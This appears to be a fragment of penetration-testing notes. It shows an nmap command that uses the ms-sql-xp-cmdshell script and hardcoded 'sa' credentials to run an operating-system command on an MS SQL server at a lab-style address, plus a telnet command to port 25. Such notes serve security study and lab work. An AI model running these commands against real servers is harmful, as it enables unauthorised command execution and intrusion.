 **Command Injection using nmap**

```
nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password=poiuytrewq,mssql.database=bankdb,ms-sql-xp-cmdshell.cmd="whoami" 10.11.1.31
```

\
\


### Telnet

```
telnet $targetip 25
```

